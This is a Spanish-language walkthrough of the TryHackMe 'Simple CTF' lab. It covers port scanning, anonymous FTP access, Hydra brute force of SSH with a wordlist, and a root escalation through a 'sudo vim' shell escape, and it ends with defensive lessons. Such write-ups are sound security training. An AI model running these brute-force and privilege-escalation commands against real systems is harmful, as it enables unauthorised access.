# TryHackMe — Simple CTF 🚩

Writeup / walkthrough de la máquina **Simple CTF** de TryHackMe. El laboratorio encadena múltiples vectores: acceso anónimo por **FTP** para obtener un nombre de usuario, explotación de una **inyección SQL** en **CMS Made Simple 2.2.8** (CVE-2019-9053) que confirma la versión del CMS, fuerza bruta de credenciales SSH con **Hydra**, y escalada final a `root` abusando de permisos `sudo` sobre `vim` (GTFOBins).

---

## 🧰 Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de versiones
- `gobuster` — fuerza bruta de directorios web
- `whatweb` — identificación de tecnologías y versiones del sitio web
- FTP anónimo — descubrimiento de usuario y nota interna
- `hydra` — fuerza bruta de credenciales SSH
- `vim` + `sudo` (GTFOBins) — escalada de privilegios

## 📋 Datos de la máquina

| Campo | Valor |
|---|---|
| IP | `10.66.160.187` |
| Plataforma | TryHackMe |
| Nombre | Simple CTF |

---

## 1. Reconocimiento

### Escaneo completo de puertos

```bash
nmap -p- -Pn -T4 10.66.160.187
```



**Puertos encontrados:**

| Puerto | Servicio |
|---|---|
| 21 | FTP |
| 80 | HTTP |
| 2222 | SSH (puerto no estándar) |

> El SSH corre en el **puerto 2222** en lugar del 22 habitual — detalle importante para los ataques posteriores.

### Detección de versiones y scripts

```bash
nmap -sVC -p 21,80,2222 10.66.160.187
```





Hallazgos clave del escaneo:

- **Puerto 21** — `vsFTPd 3.0.3` con **login anónimo habilitado**.
- **Puerto 80** — `Apache 2.4.18` con un `robots.txt` que menciona 2 entradas bloqueadas.
- **Puerto 2222** — `OpenSSH 7.2p2`.

---

## 2. Enumeración web

### Página principal en el puerto 80

Al visitar la IP directamente se muestra la página por defecto de Apache2, sin contenido adicional:



### Fuzzing de directorios con Gobuster

```bash
gobuster dir -u 10.66.160.187 \
  -x php,html,txt,htm \
  -w /usr/share/wordlists/dirb/common.txt
```



Directorios relevantes encontrados: `/robots.txt` y `/simple`.

### Contenido de `/robots.txt`



El archivo `robots.txt` bloquea la ruta `/openemr-5_0_1_3`, una versión de **OpenEMR** (software de salud). Esto es una pista falsa — el vector real está en `/simple`. Más relevante es que el propio archivo lleva la firma **`mike`** en su encabezado, lo que apunta a un posible nombre de usuario del sistema.

### Directorio `/simple` — CMS Made Simple

```
http://10.66.160.187/simple/
```



Se descubre una instalación de **CMS Made Simple**. Se usa `whatweb` para confirmar la versión exacta:

```bash
whatweb http://10.66.160.187/simple
```

Resultado: **CMS Made Simple 2.2.8**

### Fuzzing de directorios dentro de `/simple`

```bash
gobuster dir -u http://10.66.160.187/simple \
  -x php,html,txt,htm \
  -w /usr/share/wordlists/dirb/common.txt
```



Se localiza el panel de administración en `/simple/admin/`:



```
http://10.66.160.187/simple/admin/login.php
```

---

## 3. Enumeración FTP — Descubrimiento de usuario

El escaneo de nmap confirmó que el FTP acepta **login anónimo**. Se accede sin contraseña:

```bash
ftp 10.66.160.187
# Usuario: anonymous
# Contraseña: (vacía)
```



Dentro del servidor se encuentra el directorio `pub` con un archivo llamado `ForMitch.txt`:

```
ftp> cd pub
ftp> get ForMitch.txt
```



### Contenido de `ForMitch.txt`

```bash
cat ForMitch.txt
```



```
Dammit man... you're the worst dev i've seen. You set the same pass for the
system user, and the password is so weak... i cracked it in seconds. Gosh...
what a mess!
```

📌 **Conclusiones del archivo:**

- El usuario del sistema se llama **Mitch**.
- Usa la **misma contraseña débil** tanto para el sistema como para el CMS.
- La contraseña es tan simple que fue crackeada en segundos — ideal para ataque por diccionario.

---

## 4. Investigación de vulnerabilidad — CVE-2019-9053

Buscando exploits para **CMS Made Simple 2.2.8** se identifica una vulnerabilidad crítica:



**CVE-2019-9053** — Inyección SQL no autenticada a través del módulo de noticias (`News`). Permite extraer hashes de contraseñas y usuarios de la base de datos sin necesidad de credenciales previas.

> Aunque el CVE existe y es explotable, en esta máquina el camino más directo es la fuerza bruta SSH usando el nombre de usuario extraído del FTP, combinado con la pista de que la contraseña es débil.

---

## 5. Fuerza bruta SSH con Hydra

Con los nombres de usuario identificados (`mike`/`Mike` del `robots.txt` y `Mitch`/`mitch` del `ForMitch.txt`), se crea un diccionario de usuarios:

```bash
nano users.txt
```



```
mike
Mike
Mitch
mitch
```

Se lanza el ataque de fuerza bruta apuntando al **puerto 2222** (SSH no estándar):

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
  -s 2222 -t 4 10.66.160.187 ssh
```

✅ **Credenciales encontradas:**

```
usuario: mitch
contraseña: secret
```

---

## 6. Acceso inicial — SSH como mitch

```bash
ssh mitch@10.66.160.187 -p 2222
```



```bash
ls
cat user.txt
```

✅ **Flag de usuario obtenida.**

---

## 7. Escalada de privilegios

### Enumeración de usuarios del sistema

```bash
cd /home
ls
```



Se identifica otro usuario: **`sunbath`** — posible objetivo para movimiento lateral, aunque la ruta directa a `root` es más sencilla.

### Verificación de permisos sudo

```bash
sudo -l
```



```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

El usuario `mitch` puede ejecutar `vim` como `root` **sin contraseña**. Según **GTFOBins**, `vim` permite escapar a una shell interactiva desde su modo de comandos.

### Explotación vía GTFOBins

```bash
sudo /usr/bin/vim
```

Dentro del editor, se ejecuta el siguiente comando para lanzar una shell con privilegios de root:

```vim
:!/bin/bash
```



```bash
whoami
# root
```

### Captura de la flag de root

```bash
cd /root
cat root.txt
```



```
W3ll d0n3. You made it!
```

✅ **Máquina completada.**

---

## 📌 Conclusiones

- El **FTP con acceso anónimo** exponía una nota interna (`ForMitch.txt`) que revelaba el nombre de usuario real del sistema y la advertencia de que su contraseña era extremadamente débil — información suficiente para orientar un ataque de fuerza bruta dirigido.
- El archivo `robots.txt` filtró de forma inadvertida otro posible usuario (`mike`) a través de su metadato de autoría, recordando que hasta los archivos de configuración pública pueden contener información sensible.
- La contraseña `secret` del usuario `mitch` confirma exactamente lo que describía la nota del FTP: una contraseña trivial crackeable en segundos con `rockyou.txt`.
- El **puerto no estándar del SSH** (2222) es un ejemplo de "seguridad por oscuridad" — no impide el ataque, solo requiere especificar el puerto con `-p 2222` en Hydra y al conectarse.
- El permiso `sudo NOPASSWD` sobre `vim` es uno de los vectores de escalada más documentados en **GTFOBins**: cualquier editor de texto interactivo capaz de ejecutar comandos del sistema se convierte en una puerta directa a `root`.
- **Lecciones de seguridad:**
  - Deshabilitar el acceso FTP anónimo en producción o, si es necesario, no almacenar archivos con información sensible en directorios accesibles públicamente.
  - Nunca reutilizar contraseñas entre servicios, especialmente cuando alguno de ellos es de acceso público.
  - Aplicar el principio de mínimo privilegio en `sudoers`; evitar otorgar permisos a editores de texto, intérpretes o cualquier binario capaz de generar una shell.
  - Cambiar puertos por defecto no aporta seguridad real — lo que sí importa es el cifrado, la autenticación por clave y las políticas de contraseña.

---

## 🏷️ Categoría

`FTP Anonymous` · `CMS Enumeration` · `CVE-2019-9053` · `Brute Force` · `SSH` · `Privilege Escalation` · `GTFOBins` · `TryHackMe`
